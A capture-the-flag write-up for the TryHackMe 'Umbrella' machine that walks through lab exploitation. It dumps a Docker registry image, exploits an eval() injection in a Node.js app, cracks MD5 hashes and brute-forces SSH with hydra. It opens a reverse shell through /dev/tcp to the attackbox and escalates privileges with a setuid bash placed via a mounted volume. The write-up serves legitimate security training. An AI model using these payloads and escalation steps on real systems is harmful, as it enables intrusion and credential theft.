

# TryHackMe writeup - Umbrella
Umbrella is a medium machine on TryHackMe with the description: "Breach Umbrella Corp's time-tracking server by exploiting misconfigurations around containerisation."

## Recon

Running nmap with -sC (default scripts) and -sV (Version detection) on the box shows there are quite a few services running. 

``` bash
nmap -sC -sV $IP

> Starting Nmap 7.60 ( https://nmap.org ) at 2024-03-18 17:13 GMT
> Nmap scan report for ip-10-10-54-138.eu-west-1.compute.internal (10.10.54.138)
> Host is up (0.0018s latency).
> Not shown: 996 closed ports
> PORT     STATE SERVICE VERSION
> 22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
> 3306/tcp open  mysql   MySQL 5.7.40
> | mysql-info: 
> |   Protocol: 10
> |   Version: 5.7.40
> |   Thread ID: 4
> |   Capabilities flags: 65535
> |   Some Capabilities: LongColumnFlag, FoundRows, LongPassword, DontAllowDatabaseTableColumn,  SupportsCompression, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, Support41Auth, ODBCClient, InteractiveClient, SwitchToSSLAfterHandshake,  ConnectWithDatabase, SupportsLoadDataLocal, Speaks41ProtocolNew, SupportsMultipleStatments,  SupportsAuthPlugins, SupportsMultipleResults
> |   Status: Autocommit
> |   Salt: m\x0BPbPjE\x02)B\x1Da<q3z1;0g
> |_  Auth Plugin Name: 79
> 5000/tcp open  http    Docker Registry (API: 2.0)
> |_http-title: Site doesn't have a title.
> 8080/tcp open  http    Node.js (Express middleware)
> |_http-title: Login
> MAC Address: 02:53:98:3B:60:1D (Unknown)
> Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Running searchsploit for the found ssh and mysql versions does not yield anything useful for now.

``` bash
searchsploit openssh 8.2
searchsploit mysql 5.7
```

The website on 8080 is a login portal which POSTs login details to a /auth endpoint.



Testing some obvious username:password combinations against the services does not yield any results. Before we try to do some more bruteforcing against the previous services, the Docker Registry deserves some more attention. When we run `curl http:$IP:5000/v2 -vv` a 200 ok status code is returned, which verifies that the Docker Registry actually implements v2 of [CNCF Distribution http api](https://distribution.github.io/distribution/spec/api/). 

We can then continue our recon by running a request against the `/v2/_catalog` endpoint to check if we have read access to the registry, and we find a repository called umbrella/timetracking.

``` bash
curl http://$IP:5000/v2/_catalog

{"repositories":["umbrella/timetracking"]}
```

That allows us to do dig even deeper and find the manifest of the latest image:
``` bash
curl http://$IP:5000/v2/umbrella/timetracking/manifests/latest -o timetracking-latest.json
```


To understand what we have got so far, it is important to understand how layers in a docker image works. A lot of useful information can be found on the docker website. A key insight from https://docs.docker.com/build/cache/ is that each line in a Dockerfile pretty much translates to a layer in the build docker image.


We can take a look at what we found in the manifest first:

```bash
cat timetracking-latest.json
```

What we actually want is in the v1Compatability nodes, so we can format it a little nicer by using jq:

``` bash
jq '.history[].v1Compatibility | fromjson' timetracking-latest.json 

# which returns a lot of information, but the most immediatly interesting is almost at the top.
...
    "Env": [
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "NODE_VERSION=19.3.0",
      "YARN_VERSION=1.22.19",
      "DB_HOST=db",
      "DB_USER=root",
      "DB_PASS=<redacted>",
      "DB_DATABASE=timetracking",
      "LOG_FILE=/logs/tt.log"
    ],
    "Cmd": [
      "node",
      "app.js"
    ],
    "Image": "sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1",
    "Volumes": null,
    "WorkingDir": "/usr/src/app",
    "Entrypoint": [
      "docker-entrypoint.sh"
    ],
...
```

The manifest file also contains the hashes for all the blobs that make up the built image. While we could download all the layers of the image manually, it is much more convenient to use a tool, so we get DockerRegistryGrabber from github:

``` bash
git clone https://github.com/Syzik/DockerRegistryGrabber
cd DockerRegistryGrabber
python3 -m pip install -r requirements.txt

python3 drg.py http://$IP --dump_all
```

The blobs are actually tar.gz archives that contain the diff to the file system after building the layer. While we should probably check all the archives, we can assume that the largest archive files are OS and framework related. Digging around in the different archives, we can assemble the source code for the app (found in /usr/src/app), which appears to be the one running on port 8080 of the machine. 

In the app.js file one action stands out immediatly as vulnerable:

```js
// http://localhost:8080/time
app.post('/time', function(request, response) {
	
    if (request.session.loggedin && request.session.username) {

        let timeCalc = parseInt(eval(request.body.time));
		let time = isNaN(timeCalc) ? 0 : timeCalc;
        let username = request.session.username;

		connection.query("UPDATE users SET time = time + ? WHERE user = ?", [time, username], function(error, results, fields) {
			if (error) {
				log(error, "error")
			};

			log(`${username} added ${time} minutes.`, "info")
			response.redirect('/');
		});
	} else {
        response.redirect('/');;	
    }
	
});
```

Now all we need is a valid logon to test our theory. As we already have the credentials required to connect to the database, we can connect to the db and see if we can create one manually there. On the THM AttackBox mysql client is not installed by default, so we first install it:

```bash 
sudo apt install mysql-client
mysql -h $IP -u root -p
```

Then we start enumerating the mysql server. 

```sql
select * from sys.version;
+-------------+---------------+
| sys_version | mysql_version |
+-------------+---------------+
| 1.5.2       | 5.7.40        |
+-------------+---------------+

select table_catalog, table_schema, table_name from information_schema.tables where table_type = "BASE TABLE";
+---------------+--------------------+------------------------------------------------------+
| table_catalog | table_schema       | table_name                                           |
+---------------+--------------------+------------------------------------------------------+
...
| def           | timetracking       | users                                                |
+---------------+--------------------+------------------------------------------------------+


select * from timetracking.users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
+----------+----------------------------------+-------+
```

There does not appear to be any user defined tables, other than the one used by the app. From the source code we found earlier, we know that these passwords are md5. We can add our own user to the app:

```sql
insert into timetracking.users (user,pass,time) values ("loldot", md5("1234"), 1337);
```

We can also try to crack the passwords of the other users. All of the passwords are easily cracked with https://crackstation.net

| hash                             | alg | password  |
|----------------------------------|-----|-----------|
| 2ac9cb7dc02b3c0083eb70898e549b63 | md5 | Password1 |
| 0d107d09f5bbe40cade3de5c71e9e9b7 | md5 | letmein   |
| d5c0607301ad5d5c1528962a83992ac8 | md5 | sunshine1 |
| 4a04890400b5d7bac101baace5d7e994 | md5 | sandwich  |

We add the cracked passwords to a file passwords.txt and then the user names, with some permutations, to users.txt and check for password reuse on the ssh server, while we checkout the web app.

```bash
hydra -L users.txt -P passwords.txt $IP ssh -t 4 # Maximum four parallel tasks which is recommended for ssh
```

When we log in with our new user, we are greeted with the dashboard of a time tracking application. Logging hours appear to be using the endpoint we are sure is vulnerable. We can verify that it is vulnerable by adding the following as our time in minutes: `require("process").pid` and see that our time increases, albeit with a small value, which makes sense as we are running in a container. Now that we have proved code execution, we can run a reverse shell. Run `nc -lnvp 8888` in the terminal on your attackbox and than fill in the following code in the input for time.

```js
require("child_process").spawn("/bin/bash", ["-c", "/bin/bash -i >& /dev/tcp/<attackbox ip>/8888 0>&1"], {detached:true})
```

In our netcat listener we receive the callback 🙌 and we are root!
```
Connection from 10.10.221.177 42306 received!
bash: cannot set terminal process group (17): Inappropriate ioctl for device
bash: no job control in this shell
root@de0610f51845:/usr/src/app#id
id
uid=0(root) gid=0(root) groups=0(root)
```

But there doesn't appear to be anything very interesting on the server.

## user.txt

We go back to our bruteforce terminal and it has found valid credentials for the ssh server. We log in with the found credentials. In the user directory, we can find the user.txt flag and a directory 'timeTracker-src'. This directory contains one item we did not find when we reversed the image; the docker-compose file.

```yaml
version: '3.3'
services:
  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: 'timetracking'
      MYSQL_ROOT_PASSWORD: 'Ng1-f3!Pe7-e5?Nf3xe5'
    ports:
      - '3306:3306'     
    volumes:
      - ./db:/docker-entrypoint-initdb.d
  app:
    image: umbrella/timetracking:latest
    restart: always
    ports:
      - '8080:8080'
    volumes:
      - ./logs:/logs
```

## root.txt

We can see that the compose file mounts host directory to a volume in the app container. It is important to know that a docker container is not a virtualized as in a virtual machine. In stead it is isolated from other processes on the host with kernel namespaces and control groups. A container mounts its own root filesystem, but runs as a process in the kernel of the host OS.

The mounted volume will actually make a reference to the "host" filesystem, which we can reach from the container. As the file system is just data, and we have root permissions inside the container, we can modify this part of the file system at will. We can abuse this by adding our own set-uid binary to the directory and running it as our regular user to escalate our privileges.

There are some resources:
https://docs.docker.com/engine/security/

```bash
# In the container
cd /logs
cp /bin/bash .
chmod u+sx ./bash

# In the ssh session
cd ~/timeTracker-src/logs
./bash -p # We need to use -p so that bash does not drop our root privileges automatically
```
